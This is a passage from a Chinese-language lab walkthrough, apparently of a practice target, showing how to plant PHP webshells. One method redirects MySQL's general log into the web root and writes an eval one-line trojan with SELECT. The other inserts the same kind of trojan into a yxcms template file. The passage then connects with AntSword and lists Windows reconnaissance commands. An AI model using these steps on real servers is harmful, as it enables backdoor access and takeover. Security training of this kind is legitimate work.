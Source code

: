 ![image-20220615104302652](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151043694.png)

**第二步**、查看当前的日志存放的目录：show variables like 'general%'; 可以看到当前日志存放的目录为C:\phpstudy\MYSQL\data\stu1.log。

![image-20220615104351187](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151043215.png)

**第三步**、通过general_log_file来获取webshell，先指定一个文件，没有文件会创建一个新文件

set global general_log_file = "C:/phpStudy/www/1.php";

指定成功，接下来再执行的操作都会记录到1.php这个文件中



![image-20220615104651699](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151046732.png)

![image-20220615104643221](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151046261.png)

**第四步**、执行SELECT '<?php eval($_POST["123"]);?>' 也就是在1.php中写入一句话木马，连接密码123，执行成功，意思就是已经写进去了

![image-20220615104800080](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206151048117.png)

**第五步**、蚁剑连接，连接成功

![image-20220626112552824](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206261125935.png)

#### 2、方法二：

①、访问http://192.168.72.145/yxcms/，更具提示登录

![image-20220626110531415](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206261105465.png)



②、进来后是一些关于服务器的相关配置，随便点点看看，在前台模板这里，有一个管理模板文件的按钮，点进去，发现有很多PHP文件。

![image-20220626111013748](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206261110826.png)   

③、在此随便选择一个PHP文件，这里以前台模板文件index_index.php为例，编辑写入一句话木马，为了跟方法一区分开，这里连接密码为456

![image-20220626112308530](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206261123582.png)

 

④、两个webshell都能正常连接

 ![image-20220626112510299](https://yang-typora.oss-cn-beijing.aliyuncs.com/202206261125368.png)



### 四、内网信息收集

```java
whoami ///收集目标机器的身份

hostname /// 显示主机名称

net user ///显示用户

net localgroup administrator ///显示本地管理员组
```
